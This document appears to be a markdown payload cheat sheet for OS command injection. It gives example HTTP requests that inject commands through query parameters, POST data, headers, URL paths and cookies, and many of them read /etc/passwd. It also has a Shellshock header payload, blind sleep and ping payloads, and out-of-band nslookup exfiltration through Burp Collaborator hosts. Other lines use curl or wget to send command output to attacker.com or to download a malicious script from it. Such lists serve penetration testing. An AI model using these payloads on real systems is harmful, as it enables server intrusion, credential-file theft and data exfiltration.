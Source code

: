

# OS Command Injection Payloads

  - [Description](#description)
  - [Wordlist](#wordlist)
  - [Simple Case](#simple-case)
  - [Blind Injection](#blind-injection)
  - [Blind Injection with Output Redirection](#blind-injection-with-output-redirection)
  - [Out of Band](#out-of-band)
  - [ChatGPT Payload](#chatgpt-payload)
___
# Summary

To exploit an OS command injection vulnerability, an attacker must find a place where the application accepts user input and then inject a malicious payload that executes arbitrary commands on the server. This usually involves crafting an HTTP request where the payload is placed in an input field that the server processes with a system command.

Here are some examples of where to put a command injection payload in HTTP requests:

### 1. In Query Parameters

When an application takes a query parameter as input and uses it in a command execution on the server, you can place the payload in the parameter value.

**Example HTTP Request:**
```
GET /ping?host=127.0.0.1;cat%20/etc/passwd HTTP/1.1
Host: vulnerable-website.com
```
In this case, the server might execute a command like `ping 127.0.0.1` based on the input. The payload (`;cat /etc/passwd`) tries to execute an additional command to read the contents of the `/etc/passwd` file.

### 2. In POST Data

If a web application processes POST data to execute commands, you can inject the payload directly into the form data.

**Example HTTP Request:**
```
POST /submit HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

username=admin&command=whoami;id
```
In this example, the `command` parameter contains a payload (`whoami;id`) that tries to execute `whoami` followed by `id`. If the server executes this input as part of a command, the payload can run.

### 3. In HTTP Headers

Attackers may inject command injection payloads into HTTP headers if the application processes header values and uses them in commands.

**Example HTTP Request:**
```
GET / HTTP/1.1
Host: vulnerable-website.com
User-Agent: curl; ls -la
```
If the server uses the `User-Agent` header in a command execution, the payload (`; ls -la`) may run on the server.

### 4. In URL Path

Command injection payloads can also be placed in the URL path if the web application uses parts of the path to execute commands.

**Example HTTP Request:**
```
GET /execute/ls%20-la;cat%20/etc/passwd HTTP/1.1
Host: vulnerable-website.com
```
Here, the URL path `/execute/ls -la;cat /etc/passwd` is designed to manipulate the command execution on the server.

### 5. In Cookie Header

If the web application reads cookies and uses them in a system command, the payload can be placed inside the cookie value.

**Example HTTP Request:**
```
GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=abc123; curl -o /tmp/malicious.sh http://attacker.com/malicious.sh
```
The payload attempts to download a malicious script if the server processes the cookie value in a system command.

### Crafting the Payload

Common payloads for command injection include using separators like `;`, `&&`, `|`, or `||` to chain commands. Examples:
- `; cat /etc/passwd`
- `&& whoami`
- `| ls -la`
- `|| echo vulnerable`

By injecting these payloads in the right places, attackers can exploit command injection vulnerabilities to execute arbitrary commands on the server. Proper input validation, sanitization, and secure coding practices are crucial to mitigate these risks.

## Wordlist
```sh
;whoami;
;sleep+10;
nslookup+burpcollaborator.net
|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1
```
## Simple Case
```sh
& echo test &

& whoami #

;ls

;ls;

User-Agent: () { :; }; echo ; /bin/bash -c "cat /etc/passwd" >> In User-Agent Header.
```
## Blind injection
Example:  name=test&email=```;sleep 5;```&message=test or, name=test&email=```||sleep 5||```&message=test
```sh
; sleep 10 ||

& sleep 10 #

; sleep 10 ;

asd||sleep 5|| >> Middle of two parameter.

||ping+-c+10+127.0.0.1||

& ping -c 10 127.0.0.1

asd||sleep 5 # >> Last parameter or to comment out extra parameter
```
## Blind injection with output redirection
If you identified a blind Command Injection try to find a writable folder to read your output. Suppose, if a application serves it's images for the product catalog from location like ```/image?filename=22.jpg```, you can redirect the output from the injected command to a file in this ```images``` folder, and then use this URL to retrieve the contents of the file.
```sql
& whoami > /var/www/images/output.txt #
; whoami > /var/www/images/output.txt ;
```
Now, you can read content like this ```/image?filename=output.txt```

## Out of band
```sh
||nslookup x.vyx05udastzq6llyo3y9vqiswj2aq3vrk.oastify.com||

& nslookup x.burpcollaborator.net #

& nslookup `whoami`.xgvse45vdusd5etw7ewqd9d78wq.burpcollaborator.net #

& nslookup $(whoami).xgvse45vdusd5etw7ewqd9d78wq.burpcollaborator.net #

|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1

Example-01: /api/v1/pdf/generate_zip?seed_id=521b62f5b7132de722027388|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1

Example-02: https://api.seedr.ru/uploads/521b62f5b7132de722027388|nslookup -q=cname 0vwm3493ytajvrc4a2g7ptfmgdm7a04o0crzhn6.burpcollaborator.net.&.zip

Example-03: email=a@a.com|nslookup -q=cname 6dkbk5sl74e1lw093edka1x3buhl5g34s.oastify.com.&.zip
```
## ChatGpt Payload
```
; ls
; dir
| ls
| dir
&& ls
&& dir
|| ls
|| dir
`ls`
`dir`
$(ls)
$(dir)
; id
; whoami
| id
| whoami
&& id
&& whoami
|| id
|| whoami
`id`
`whoami`
$(id)
$(whoami)
; id > /tmp/output.txt
; whoami > /tmp/output.txt
| id > /tmp/output.txt
| whoami > /tmp/output.txt
&& id > /tmp/output.txt
&& whoami > /tmp/output.txt
|| id > /tmp/output.txt
|| whoami > /tmp/output.txt
`id` > /tmp/output.txt
`whoami` > /tmp/output.txt
$(id) > /tmp/output.txt
$(whoami) > /tmp/output.txt
; curl http://attacker.com?data=$(id)
; wget http://attacker.com?data=$(id)
| curl http://attacker.com?data=$(id)
| wget http://attacker.com?data=$(id)
&& curl http://attacker.com?data=$(id)
&& wget http://attacker.com?data=$(id)
|| curl http://attacker.com?data=$(id)
|| wget http://attacker.com?data=$(id)
`curl http://attacker.com?data=$(id)`
`wget http://attacker.com?data=$(id)`
$(curl http://attacker.com?data=$(id))
$(wget http://attacker.com?data=$(id))
```
